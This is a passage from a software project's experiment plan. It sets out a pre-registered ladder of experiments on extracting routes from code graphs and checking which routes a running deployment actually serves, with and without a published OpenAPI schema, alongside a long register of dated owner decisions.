

# Experiment Plan: Discovery and Validation

**Branch**: `001-discovery-validation` | **Date**: 2026-08-02 | **Spec**: [`spec.md`](./spec.md)

**Note**: This feature produces evidence, not capability, so this plan replaces the standard
implementation-plan sections (source layout, storage, deployment target) with a sequenced experiment
ladder. The Constitution Check and Complexity Tracking gates are retained and answered below.

## Summary

Fifteen experiments, ordered so that the cheapest ones that can kill the idea run earliest. Each
carries a question, a method, a pre-registered gate, and a statement of what it decides. E14 and E15
were appended after the ladder was first written, numbered rather than inserted so existing
references stay valid. ~~**Eight are resolved and the ceiling test is in flight**~~ **Nine of the
fifteen positions were reached and the feature is closed on OD-07** *(status corrected 2026-08-03;
adjudication in [`VERDICT.md`](./VERDICT.md))*; ~~five~~ ~~eleven~~ ~~thirteen~~ ~~fourteen~~ ~~seventeen~~ ~~twenty~~ ~~twenty-one~~ ~~twenty-three~~ ~~twenty-five~~ ~~twenty-six~~ ~~twenty-seven~~ ~~twenty-eight~~ ~~twenty-nine~~ ~~thirty~~ **thirty-one** owner decisions
(OD-01 through OD-31, all of them taken) were recorded during execution and are set out below.
*(Count corrected 2026-08-03, late: it previously read eleven because **OD-12 was a drafted proposal
and not a decision**. It has since been ratified, and **OD-13** was added with it. **Extended
2026-08-03 with OD-14**, which is an addition rather than a correction. **Extended again 2026-08-03
with OD-15, OD-16 and OD-17**, also additions — they post-date the production specification's plan
phase rather than this feature's execution, and they are recorded here because this is where the OD
register lives. **Extended once more 2026-08-03 with OD-18, OD-19 and OD-20, and these three are
different in kind from every entry above them: they are decisions the owner took at the production
specification's clarify session, applied to that document's requirement text on the day, and never
recorded here at all.** They are retroactive records rather than new decisions, each says so in its own
first line, and the phrase "were recorded during execution" in the sentence above is false of them —
correctly, and it is left standing rather than softened, because three requirements resting on an
unrecorded authority is the defect these entries close. **Extended a final time 2026-08-03 with
OD-21**, the fourth answer of that same clarify session and the last one still unrecorded. It is
separate from OD-18 through OD-20 because recording it required owner authority rather than a
propagation pass — the note struck under OD-20 said exactly that on the day, and the owner
subsequently gave it. **Extended once again 2026-08-03 with OD-22 and OD-23**, two owner answers to
the two questions the production specification had left open at its Clarifications section. These two
are additions and not corrections, they are contemporaneous records rather than retroactive ones, and
**OD-22 is the third constitution amendment in this register**, joining OD-03 and OD-13. **Extended
once more 2026-08-04 with OD-24 and OD-25**, and the two are different in kind from each other:
**OD-24 is written already revised**, because the decision it records was taken before it was written
and the measurements that falsified its wording landed in between — so its struck text never stood
here as a live row, which is a first for this register and is stated in the entry rather than left to
be inferred; and **OD-25 is a contemporaneous record** of the disposition the production
specification's FR-058 carries. **OD-24 is also the first entry here that adopts a model and defers
its build in the same act**, which is why it says so in a banner rather than in a clause. **Extended
2026-08-05 with OD-26**, which is different in kind again: it is the first entry here that adjudicates
**between two artifacts in this repository** rather than settling a design question, naming one of
them authoritative and the other derived, and whose principal output is therefore a mechanical check
rather than a requirement. **Extended 2026-08-06 with OD-27**, which is different in kind a third
way: it is the first entry here that **re-opens a question a task had recorded as closed by
construction** — `tasks.md`'s T210 — and it does so because the thing that closed the question was
the design, and the design landing is what made the closure cost a provider. Its principal output is
a *second provenance* rather than a requirement or a check. **Extended 2026-08-06 with OD-28**, taken
the same day and different in kind a fourth way: it is the first entry here whose principal output is
a **routing instruction** rather than a disposition — it schedules no work, changes no code and moves
no requirement text, and what it adds is that a debt three passes have now re-derived from three
directions is *decided* rather than outstanding. It is also the register's **second adopt-and-defer**
entry after OD-24, and the first to carry its expiry condition as a named artifact rather than as a
measurement, on OD-24's own re-examination showing that the ground which fails quietly is the one
satisfied without anybody noticing. **✅ Discharged the same day it was taken** — the named artifact
was commissioned within hours and the migration was done ahead of it, which makes it the first entry
here whose expiry condition fired, and the first evidence that writing the condition as an artifact
rather than as a measurement was the right form. **Extended 2026-08-08 with OD-29**, which is
different in kind a fifth way: it is the first entry here whose entire content is an **answer to a
question another entry left open**, and the first to be *triggered* by a predecessor rather than
prompted by a measurement or an artifact — OD-24 named the condition, this entry meets it, and
nothing was probed to get here. It is also the first entry that **retires one of a predecessor's
grounds while explicitly leaving that predecessor's deferral standing**, which is the distinction it
spends a banner on, because the natural misreading of an answered question is that the thing it
gated may now proceed. **Extended 2026-08-10 with OD-30 and 2026-08-11 with OD-31**, and the count
word above stopped moving at both of them while the parenthesised range beside it did not.
**Corrected 2026-08-11 from thirty to thirty-one, and the two halves of that line drifted apart
because only one of them is maintained by a machine**: `gen_claims.py` owns the range and advanced
it to OD-31 on the day the entry landed, and the spelled count is prose that a reader has to notice,
so the header contradicted itself two lines apart across two entries. Thirty-one is the right word
because the register is **contiguous** — the headings run OD-01 to OD-31 with no gap and no
duplicate, so the bound and the count are the same number, and a gap would have made *thirty*
correct. `register-range` cannot see the pairing, and the direction here is the opposite of the one
it guards: the range is current and the narrative count is stale. **The pairing is read as of
2026-08-11 by `count-versus-range`**, which compares this count against this range and would have
reported *thirty* against `OD-01 through OD-31` on the day it was live; it is the only check that
looks at both halves.)*

*(**The count in the sentence below was resolved 2026-08-11 by counting its own members, and it did
not move.** Three passes read it as arithmetic in doubt, because the anchor was inferred from the
strike series and three readings of that series gave three numbers. The sentence names its members,
so no anchor has to be inferred: the enumeration runs **OD-10 through OD-29, contiguous, twenty
entries**, and `twenty` is what the sentence says. OD-01 appears inside it only as a back-reference
in OD-15's entry and is not a member. What is stale is the **enumeration**, not the count — OD-30 and
OD-31 are absent from it, and both are also the two entries at which line 16's count stopped moving,
so one mechanism left two marks. Extending the list means writing what those two decisions say, which
is an authoring act rather than an arithmetic one, and it is **left for the owner**. Advancing the
count alone to twenty-two would make it disagree with the members it introduces. **Superseded
2026-08-11: the owner commissioned the authoring act, OD-30 and OD-31 are enumerated below, and the
count moved to twenty-two with them rather than ahead of them.** The paragraph above stands as the
record of why the count could not move earlier rather than as a live account of the sentence; the
enumeration now runs OD-10 through OD-31, contiguous, and the two halves agree again. **Both entries
were tested against the sentence's own claim rather than assumed into it**: OD-30 settles an
environment question belonging to feature 002's T101 and OD-31 assigns identifiers, so each
post-dates the closure recorded at OD-07 and neither re-opens what that closure adjudicated.)*
~~**The last twelve**~~ ~~**The last fourteen**~~ ~~**The last sixteen**~~ ~~**The last seventeen**~~ ~~**The last eighteen**~~ ~~**The last nineteen**~~ ~~**The last twenty**~~ **The last twenty-two
post-date the feature's closure and do not re-open it** — OD-10 makes v1 read-only, ~~OD-11 blocks the
production specification on one further experiment~~ **OD-11's blocking condition is retired by
OD-14**, **OD-12 routes all egress through one mandatory
proxy that enforces destination and method together**, **OD-13 applies the constitution amendment
OD-12 requires, taking `.specify/memory/constitution.md` to v1.2.0**, **OD-14 declares the
verifier's marginal value over an LLM judge UNMEASURED, unblocks the production specification, and
defers the measurement to production — a deliberate departure from this feature's prove-before-build
discipline, recorded as such**, **OD-15 drops ADK for v1 and is a partial reversal of OD-01**,
**OD-16 removes `litellm` from the shipped product on licensing grounds**, **OD-17 makes Linux
the only supported platform**, and **OD-18, OD-19, OD-20 and OD-21 record retroactively the four
clarify-session decisions behind the production specification's FR-002/FR-044, FR-025/FR-045,
FR-029/FR-046 and FR-047 — OD-18 being the consequential one, an admission criterion that narrows
what v1 accepts, and OD-21 being the one recorded last because recording it was an owner act rather
than a propagation one**, **OD-22 amends Principle VI so the traced unit is tier-relative, taking
`.specify/memory/constitution.md` to v1.3.0 and discharging a fourth deviation exposure at its source
rather than by record**, and **OD-23 admits FR-024's request-declared precision rung ~~as a ratchet,
only where it tightens~~ only where no artifact source supplies any precision — the one decision here
that was ~~recorded as costing something it was expected to preserve~~ *taken, verified inert against
the census, and revised the same day to the variant its own record named*,** **OD-24 corrects the
workload's privilege model — the workload is unprivileged outside its user namespace, the supervisor is
not, `CLONE_NEWPID` is mandatory and the `setuid` drop is retained — and adopts it while deferring a
13–20 day build, so it is the register's first adopt-and-defer entry and must not be read as a
decline**, and **OD-25 makes bounded-and-referenced v1's default disposition for tool output at a bound
deliberately below where the token saving is large, settling U-50's token limb by argument and killing
the experiment on both limbs**, and **OD-26 settles which of two divergent artifacts holds FR-006's
closed terminal-state taxonomy — `src/contracts/terminal.py` does, `data-model.md` §2.1 is a derived
view of it — and strikes `terminated.denied_operation`, a state no requirement wants because a refusal
is a disposition the loop continues past**, and **OD-27 admits an operator-declared rate for a model
no vendor page prices, as a second provenance carried on the record rather than a second row in the
table, while refusing a single rate for a card that prices in two context columns and publishes no
boundary — the refusal being the limb the decision turns on, because one number there would be the
invented boundary wearing the operator's name**, and **OD-28 kept the `SessionTable` → `Repository`
migration deferred on two grounds and routed future instances of the shape to T016's note rather than
re-litigating them, while naming the artifact that expires the first ground — a supervisor entry point
opening the session store, at which instant the WAL first-open race is live and nothing in the tree
will notice. That artifact was commissioned the same day and the migration was done ahead of it, so
OD-28 is ✅ discharged 2026-08-06 by the named condition being met rather than by anyone re-reading
the entry — which is the property it was written for**, and **OD-29 answers the single question
OD-24's re-examination left to an owner: the supervisor **may** hold `CAP_SETUID` and `CAP_SETGID` in
the initial user namespace, and writes the uid map directly rather than through a `newuidmap` helper
that needs `CAP_SYS_ADMIN` and is therefore the highest-authority of the three routes rather than the
lowest. Because no posture binds only one of the two constraints, one answer retires both — and it
retires OD-24's *replacement second ground* only. **Ground ① is untouched and the 13–20 day build is
still deferred**, which is the reading the entry exists to protect.** **OD-30 makes CI the
authoritative environment for T101's overhead figure, published per arm against the same run's
measured control with pooling forbidden, and declines the `workflow_dispatch` recording route
because the artifact route it would have built already exists**, and **OD-31 renumbers the
verifier-vs-judge experiment E19 and leaves E8 with the Stage-D synthesis experiment, reaching live
prose only while the fingerprinted harness files, the committed run directories and the dated
assessments keep the name they were recorded under**.

**This document is the pre-registration required by FR-006.** Every threshold below was recorded
before its experiment ran. Revising one after results are visible requires a dated entry naming who
changed what and why — not a quiet edit.

## What we are actually building, restated

The product converts a codebase into **organized agents that operate the running application through
its existing external interface** — its HTTP API, not its internals. The graph-and-loop paradigm
applies wherever it earns its place. That yields three distinct graphs, and the experiment ladder is
organized around proving each one in turn:

| | Graph | What it is | Who produces it | Proven by |
|---|---|---|---|---|
| 1 | **Code graph** | Functions, routes, classes; `calls` / `contains` / `imports` edges. Deterministic, no model involved. | `codegraph`, extended | Stage A |
| 2 | **Agent graph** | The topology *derived from* graph 1. Nodes are agents, each running a loop; edges are artifact handoffs. | Us — this is the "organized" in organized agents | Stage E |
| 3 | **Memory graph** | Domain entities plus operational memory, accumulated across runs so the loops improve. | The running system | Stage E |

The thesis in one line: **derive graph 2 from graph 1, let graph 3 accumulate, and the loops get
better at operating the application than a general agent with a shell.** Stage C tests whether that
last clause is true at all, before we spend anything proving the mechanism.

A constraint that shapes everything downstream: synthesized tools invoke the target **over its
existing external interface, never in-process**. That is already decided, and it is why the analysis
layer cares so much about routes and contracts rather than arbitrary internal functions.

## Constitution Check

*Gate: must pass before execution.*

| Principle | Bearing on this plan | Status |
|---|---|---|
| I — Contract-derived verification | E4 measures whether contracts are recoverable at all. If it fails, the principle is aspirational and must be revisited rather than quietly ignored. E7 and beyond decide outcomes by programmatic check only (FR-001). | **Pass** — and E4 is the honest test of it |
| II — Topology encodes protocol | E10 is the direct test: derived topology versus one agent with every tool. | **Pass** |
| III — Structural safety boundaries | Every write-capable arm runs against a disposable instance (FR-019); credentials are scoped and never enter a trace (FR-020); E12 gates unattended writes on measured precision. | **Pass** |
| IV — Test-first with committed fixtures | Answer keys, task fixtures, and harness configuration are committed before the arms run (FR-009, FR-016). Thresholds are pre-registered here. | **Pass** |

No violations. Complexity Tracking is therefore empty.

**Amended 2026-08-02 — this gate was answered against constitution v1.0.0 and the constitution is
now v1.1.0.** Principle I's Enforcement paragraph gained one requirement: a derived verifier MUST be
validated against an artifact its own derivation did not produce, or be marked provisional and carry
its provenance and confidence (OD-03). **Row I still passes and for a stronger reason than it was
written with** — E4 and E15 measured exactly the property the amendment now requires, reporting the
*validated* reading (53/69 = 0.7681, falling to uncomputable with the schema withheld) alongside the
literal one rather than quoting one number. Nothing in this plan becomes non-compliant; what changes
is that the same discipline is now merge-blocking for whatever the production specification emits.
The row is left as answered rather than re-adjudicated, because re-running a passed gate against a
strengthened principle it already satisfies would be theatre.

## The ladder

---

## Stage A — Prove the code graph (Graph 1)

Zero model spend throughout. This stage decides **adopt, extend, or build** for the analysis layer,
which is the largest single build-versus-adopt call in the project.

### E1 — Route extraction precision · **DONE**

**Question.** Of the nodes the analyzer labels `route`, how many are real callable endpoints?

**Result.** 74.6% raw (866 of 1,161) on a 4,496-file, 96%-TypeScript production monorepo. The
pollution is middleware registrations and client-side React Router paths, and a deterministic filter
requiring an HTTP verb removes all of it, taking precision to essentially 100%. Recorded in
[finding 001](./findings/001-structure-recovery.md).

**What it decided.** Promotion selection gets a meaningful free down payment from a rule with no
model in it. Partial positive.

### E2 — Route extraction recall · **DONE**

**Question.** What fraction of the endpoints an application actually serves does the analyzer find?

**Result.** Against a machine-generated key read from a FastAPI app's own `app.routes` table across
five constructor configurations (77 distinct `(method, path)` pairs), the analyzer scored
**precision 1.0000 (69 true positives, 0 false positives) and recall 0.8961 (69 of 77)**, F1 0.9452.
Split by whether a route is declared in application source at all: **69/69 on source-declared routes
(100%)** and **0/8 on runtime-registered ones**. Recorded in
[finding 004](./findings/004-recall-against-authoritative-key.md).

**Gate adjudication — recorded plainly rather than rounded.** 0.8961 falls in the **0.75–0.90 band,
not the ≥0.90 band.** The pre-registered consequence is therefore *extend with a named, sized
gap-fill work item*, and that item exists: of the eight misses, four are FastAPI's own generated
docs routes with no source declaration anywhere, two are third-party A2A routes mounted under a
runtime-computed prefix, one is `app.mount()` (a call, not a decorator), and one is
`@app.websocket()` (a verb absent from the extractor's regex). Two are one-line fixes, four are a
shippable per-framework constant, and only the two A2A routes genuinely require running the
application. It is tempting to quote the 100% source-declared figure as the headline, and it is a
real and important number — but the product must operate applications as *deployed*, so 0.8961 is
the honest one.

**What did not go wrong is worth recording too.** 44 of the 69 declarations span multiple lines and
all 44 were recovered, so the multi-line-decorator hazard that finding 001 flagged as adversarial
did not materialize. Every recovered path matched the framework's own string character for
character.

### Newly opened by E2 — three problems nobody had asked about

The spec requires that a question discovery reveals be added to the record as newly opened rather
than quietly absorbed. These qualify, and the first is significant enough to affect the product's
core claim.

**Configuration blindness.** Scored against a *single deployment configuration* rather than the
union key, precision falls from 1.0000 to **0.3188 in the worst configuration measured** — 47 of the
69 recovered routes are real source guarded by `if web:` or `if a2a:` and are simply never served.
The spread across configurations is itself the point: 0.3188 at worst, but 0.9420 and 0.9710 on two
others, so **0.3188 is the worst case rather than the typical one**, and quoting it as typical
overstates in the opposite direction. **Static analysis recovers what the source declares, not what
a deployment serves, and in the worst case here the two differ by a factor of 2.6.** Nothing in the
research corpus addresses this. A synthesized tool for an endpoint the customer's deployment does
not expose fails at runtime, so this is not cosmetic. **Now scheduled as E14 below**, and tracked as
U-26 in [`research/14-architecture-synthesis.md`](../../research/14-architecture-synthesis.md).

**Extracted docstrings are wrong, not merely missing.** Of 10,143 indexed Python functions that
genuinely carry a PEP 257 docstring, the index records one for 355, and of those exactly **one** is
the real docstring. The extractor reads *above* the `def`, capturing comment banners — a
`roll_die` function is documented as `--- Roll Die Sub-Agent ---`. Finding 001 treated missing
docstrings as a benign division of labor, and for missing ones that holds. **Confidently wrong ones
are a different category**, because they would feed a semantic layer that has no way to know they
are wrong. Treat the field as unusable until fixed.

**A `.gitignore` pattern silently dropped committed source.** All 22 symbol-level misses sit under
`src/google/adk/a2a/logs/`, excluded because the repository's `.gitignore` contains `logs/`. Git
does not consider those files ignored — they are tracked and `git check-ignore` returns nothing —
but the indexer applies the pattern as a filter regardless. Silent, and it would remove real
application surface from analysis.

### E3 — Handler linkage · **largely answered by E2, and reshaped**

**What changed.** Finding 001 reported that 58% of endpoints reach two or more callees with nothing
marking which is the handler, and framed disambiguation as the major net-new work item. E2 shows
that figure is **an artifact of the TypeScript path**, which relies on generic `calls` edges. The
Python resolver emits a **direct route-to-handler edge**: all 69 routes reach exactly one callee,
with zero ambiguity and zero dead ends, and the linked function matches the framework's own
`route.endpoint.__name__` **69 times out of 69**.

**So the work item is not "disambiguate handlers." It is "emit that direct edge for every
framework"** — smaller, better-defined, and already demonstrated by the tool itself in one language.

**Remaining scope.** The TypeScript path still needs the direct edge, and until it has one the 58%
ambiguity is real for that language. Deterministic argument-shape matching remains the first
approach there, with the model-proposes/contract-disposes fallback unchanged. Re-scored once the
direct edge exists rather than before.

**Cost.** $0.

### E14 — Deployment reachability · **DONE**

**Added 2026-08-02, after the ladder was written.** E2 opened configuration blindness (recorded as
U-26 in the synthesis) and nothing in E1–E13 resolves it. Numbered E14 rather than inserted, so that
existing references to the ladder stay valid.

**Result.** Recorded in [finding 010](./findings/010-deployment-reachability.md), at zero model
spend. All three candidate resolutions were scored against the target's own route table under
**eight** deployment configurations — seven pre-registered, one added post-hoc and labelled so
everywhere — with ground truth machine-generated per configuration by instantiating the application
and reading `app.routes`. The plan asked for at least three configurations; two of the seven
pre-registered ones exist only to falsify specific cheats an arm could otherwise get away with.

**Gate adjudication — the gate clears, and it is worth stating which arms clear it and how.**

| Resolution | Worst precision | Verdict |
|---|---|---|
| **(2) Probe the running instance** — `GET /openapi.json` | **1.0000** | **PASS.** Recall 1.0000 as well, on all eight, dropping zero served operations anywhere |
| **(1) Read the deployment configuration** — tuned | **0.9538** | **PASS**, by 0.0038 on the one post-hoc configuration; **1.0000 on all seven pre-registered ones**, so the pre-registered verdict is unqualified |
| **(1) Read the deployment configuration** — first-pass | 0.3099 | **MISS, and worse than doing nothing at all eight configurations** |
| **(3) Declared precondition** — emission-time, the pre-registered reading | 0.3188 | **MISS.** Identical to emitting everything, because it declares everything |
| **(3) Declared precondition** — runtime reading | 1.0000 | **PASS**, tautologically, and therefore not a result |
| *Do nothing — the baseline E2 opened this with* | *0.3188* | *for comparison* |

**Resolution (2) wins, and the gate's own conditional resolves to its first limb: the product
requires a running instance to be accurate.** The second limb — every emitted tool carries a runtime
reachability check — is adopted as well, but as a complement rather than as the answer, because on
the pre-registered emission-time reading it does not move the number at all.

**The joint decision E4 asked for, settled in the same pass.** OpenAPI **is** an input, for
reachability *and* contracts, one fetch per deployment configuration. Over the intersection with the
statically recovered set the schema is exact — precision 1.0000, recall 1.0000, zero served
operations dropped, and the gap to the tautological in-process upper bound is zero. Over the *full*
served surface it covers **0.8148–0.9206**, and every artifact derived from it carries a label
saying which configuration it came from. Three conditions, each measured rather than assumed: per
configuration and never once, since the same source tree publishes 22 operations under `api_server`
and 67 under `web_triggers`; labelled as the OpenAPI-visible subset, since the gap is WebSockets,
static mounts, framework documentation routes, and runtime-computed prefixes; and a floor for
contracts rather than a ceiling, since E4's `POST /run_sse` counter-example stands unchanged.

**The result that should govern how configuration parsing is priced is an ablation, not the
headline.** The tuned parser needs eight individually switchable, framework-specific mechanisms to
evaluate this one application's gating predicates. **With all eight disabled it predicts zero
operations, and disabling** ~~`M1_class_dispatch` alone~~ **either `M1_class_dispatch` or
`M2_kwarg_flow` alone also predicts zero.** *Corrected 2026-08-02, late: `off-M2_kwarg_flow`
predicts 2 operations of 324 at precision 0.0000, which is a collapse by the same reading
([finding 011](findings/011-reachability-without-schema.md) §2). The E15 entry below states that
"every downstream statement of that result is corrected" and this site — inside this plan's own E14
entry — was missed, so the plan contradicted itself on the same ablation for one pass. Two of eight
single-mechanism removals are catastrophic rather than one, which strengthens the paragraph's
argument rather than weakening it.* E4's equivalent figure was 0.5797
— degraded but functional, so "the rules are refinements" was defensible there. Here it is 0.0000:
the mechanism set is not a refinement layer on top of a working analysis, **it is the analysis.**
One of the eight was also dead code that scored as load-bearing until ablated, and chasing why is
what produced the post-hoc eighth configuration.

**What that eighth configuration found is a second failure class, and it has no upper bound.** Its
declared configuration is byte-identical to `web`; only the installed package set differs, with
`python-multipart` unimportable. Three routes silently do not register. The parser read the
configuration correctly and completely and still predicted three unserved operations — precision
0.9538, a margin of **less than one operation** over the gate. This is **environment** blindness
rather than configuration blindness, and no configuration parser reads the fact that decides it,
because it is not configuration. Tracked as U-35.

**Two instrumentation defects, both verified against a running instance rather than inferred.** The
`Allow` header on a 405 reports the methods of the *first* matching route, not the union across
routes sharing a path, so trusting it drops **24–28% of real operations** with no error and no
signal — a field that looks authoritative, is served by the framework itself, and is wrong. And a
probe designed specifically not to invoke handlers **invoked at least two**, because a parameterised
route absorbed probes aimed at its literal siblings and the handler ran and returned its own 404. On
this application the absorbed handler read a file and did no damage; nothing about the design
guarantees that. Both are Starlette properties, so neither transfers as a claim and neither
transfers as a reassurance. Tracked as U-37.

**What it decided.** U-26 is resolved and no longer blocking; the mechanism is recorded as **D-18**
in [`research/14-architecture-synthesis.md`](../../research/14-architecture-synthesis.md), and
**D-17 gains a fourth requirement** — a catalogue records the deployment it describes, as data,
because a catalogue generated against `api_server` and applied to `web` silently omits 43 real
operations and the reverse silently includes 43 that 404.

**What it opened.** Four items, recorded as newly opened rather than absorbed: **U-34**, the primary
mechanism assumes a schema endpoint that production deployments routinely disable and no
configuration here tested its absence — now scheduled as **E15** below; **U-35**, environment
blindness; **U-36**, probe results are scoped to the one process the probe reached, with
multi-replica and gateway-fronted deployments entirely unmeasured; and **U-37**, the two
instrumentation defects above and the framework generality of the precondition mechanism. A fifth,
**U-38**, records that configuration parsing has no shippable partial form, since the first-pass
version is net-negative.

**It also partly discharged U-29, in the direction that entry feared.** Two real operations
registered under a computed prefix were missed by static analysis **and** by the published schema —
observed rather than hypothesised.

**Cost.** $0. No model was called.

### E15 — Reachability without a published schema · **DONE**

**Added 2026-08-02, after E14 returned.** Numbered E15 rather than inserted, so existing references
to the ladder stay valid. E14 chose probing the running instance as the primary reachability
mechanism on the strength of precision 1.0000 and recall 1.0000 across eight configurations — every
one of which published `/openapi.json` unauthenticated. Production FastAPI deployments routinely
pass `openapi_url=None` or put the schema behind authentication, and **E14 tested neither.** That is
the largest hole in the finding and it sits directly under its primary recommendation.

**Question.** When a deployment publishes no schema, or gates it behind authentication, what is left
of D-18? Three questions the E14 evidence does not separate:

1. **Reachability.** E14's path-level precondition probe needs no schema and scored precision
   1.0000 on all eight configurations at recall 0.9655–1.0000. Does it hold as the *primary*
   mechanism rather than as a complement, and at what cost — it is one request per candidate path
   where the schema is one request in total.
2. **Method-level discrimination.** The path-level probe answers *is this path routed*, not *which
   verbs it serves*. The one refinement that would answer the second, the `Allow` header, is broken
   (E14 defect A, 24–28% of real operations dropped silently). Is there any schema-free mechanism
   for method discrimination, or is method-level reachability a schema-only capability?
3. **Contracts.** The half with no measured substitute. E4 established the schema as a contract
   *input* supplying parameters and return types free and correct; with no schema, contracts fall
   back entirely to static derivation, whose untuned expectation is **0.5797** (U-32). Does the
   catalogue degrade visibly or silently?

**Method.** Reuse E14's harness unchanged — same target, same index, same candidate set S and null
set N, same eight configurations — and add **configurations, not arms**, so that schema availability
is the only variable (FR-004). Ground truth stays machine-generated from `app.routes`, which does
not depend on the schema being published.

1. **`openapi_url=None`** applied to the `web` configuration, otherwise byte-identical to
   configuration 2. One constructor argument, and the same shape as the post-hoc configuration 8
   that separated the arms: change one thing that the declared configuration does not reveal.
2. **Schema behind authentication** — the schema route mounted behind a dependency that answers 401
   without a credential the pipeline holds. This is deliberately separate from case 1, because
   *absent* and *forbidden* must not be conflated: a 401 means a schema exists and we cannot see
   it, and treating that as "serves nothing" is the silent failure D-17 exists to forbid.
3. **A target that publishes nothing at all** — a plain Starlette or Flask application with no
   schema extension. This also buys the first datapoint on U-37, since both E14 instrumentation
   defects are Starlette properties and a framework answering 404 for method mismatch breaks the
   precondition mechanism outright.

Score the probe, the path-level precondition, and the tuned configuration parser on each, plus the
two derived quantities that decide whether D-18's fallback ladder actually holds: **method-level
recall of the schema-free path**, and **how many contract components survive** with the schema
removed as an input.

**Gate — pre-registered here, before any configuration is built.**

| Reading | Threshold | Consequence of a miss |
|---|---|---|
| **Path-level served-set precision, schema-free, on every configuration** | **≥ 0.95** | D-18's fallback ladder does not hold. A target that can be run but not introspected then has no accurate mechanism either, and configuration parsing is the only option left — at 0.0000 untuned |
| **Absent and forbidden detected, and distinguished from each other** | **1.0000 — absolute** | A pipeline that reads 404 or 401 on `/openapi.json` as "this deployment serves nothing" emits an empty catalogue and calls it a result. A miss here is a defect to fix, not a finding to report |
| **Method-level recall, schema-free** | **none — this is a measurement, not a gate** | Reported either way. If nothing schema-free reaches usable method discrimination, that is a product constraint and belongs in D-18 as one rather than as an open question |
| **Contract components retained with the schema removed** | **none — this is a measurement, not a gate** | Reported against E4's figures. The failure to watch for is not a lower count but an unmarked one, per D-17 |

**Result.** Recorded in [finding 011](./findings/011-reachability-without-schema.md), at zero model
spend, with gate adjudication byte-identical across two independent full runs. **Seven targets, not
three**: the four FastAPI schema states — `PRESENT` (control), `ABSENT`, `FORBIDDEN`, and a fourth
the plan did not name, `EMPTY` (a 200 response carrying `{"paths": {}}`) — plus plain Starlette as a
control and Flask/Werkzeug and Django as two genuinely different routers. **Three probe arms, not
one**: reusing E14's probe unchanged would have measured a known-defective instrument, since E14's
verb rule is the direct cause of its own handler-invocation defect, so probe design is a declared
second variable and the departures are recorded in the harness pre-registration.

**Gate adjudication — one gate clears absolutely, one misses on all three arms, and the reason it
misses is not the missing schema.**

| Gate | Threshold | Result | Verdict |
|---|---|---|---|
| **Schema state detected and distinguished** | 1.0000, absolute | **7 / 7** on the four-state reading, 7 / 7 on the plan's three-state reading | **CLEARS** |
| **Schema-free path-level precision** — arm `P-e14`, the design D-18 currently specifies | ≥ 0.95 | worst **0.8750** | **MISSES** |
| **Same gate, arm `P-global`** — pre-registered probe-design fix, a verb no route declares | ≥ 0.95 | worst **0.8000** | **MISSES** |
| **Same gate, arm `P-global+Allow`** — derived post-hoc, labelled so | ≥ 0.95 | worst **1.0000** | **CLEARS**, at a recall cost of 23% |
| **Method-level recall, schema-free** | *measurement, not a gate* | `Allow`: exact on Django, 0.7692 recall on FastAPI, 0.8889 precision on Flask | reported |
| **Contract components retained** | *measurement, not a gate* | derived components **unchanged**; validatable components **53/69 → 0/69** | reported |

**Gate 1 misses, and the schema is not why.** On all four FastAPI configurations — including the one
with no schema and the one with the schema behind a 401 — the schema-free probe scored **precision
1.0000 and recall 1.0000**, identical to the schema-present control, while `R2-openapi` fell to
0.0000 recall. It misses on the three non-FastAPI targets, and it misses because **a path-level
probe cannot discriminate methods.** Path-granularity precision is 1.0000 for `P-e14` on all seven
targets, and every operation-level false positive it produces anywhere is a method-level error.

**E14's 1.0000 was a property of the target.** `adk-python` contains no path that serves some methods
and withholds others, so an operation-granularity score and a path-granularity score are the same
number there. Adding one such route — `GET` unconditional, `POST` behind a configuration flag — takes
precision to 0.8000. The mechanism was never measured on the case that breaks it.

**Gate 2 clears, and the state the plan did not name is the one that catches a real pipeline.** A
pipeline deciding schema availability by whether the fetch succeeded is correct on 6 of 7 targets and
reads `EMPTY` as `PRESENT` — a successful fetch that means nothing, emitting a catalogue of zero
operations and reporting success.

**Two corrections to E14, one of them to this plan's own text.** The narrowing that configuration
parsing is the fallback for targets that cannot be **run** rather than cannot be **introspected** is
confirmed by measurement. But E14's prose named only `M1_class_dispatch` as collapse-inducing while
its own committed table shows **`off-M2_kwarg_flow` predicting 2 operations of 324 at precision
0.0000** — also a collapse. **Two mechanisms are load-bearing, not one**, and every downstream
statement of that result is corrected.

**What it decided.** **D-18 stands, amended in four places rather than demoted.** Part 1 gains an
explicit four-state schema precondition. Part 3's ablation claim is corrected to *either* `M1` or
`M2`, and its scope narrows to un-runnable targets. Part 4 specifies the probe verb as one no route
declares, keeps and strengthens the `Allow` prohibition, replaces *probably side-effect-free* with
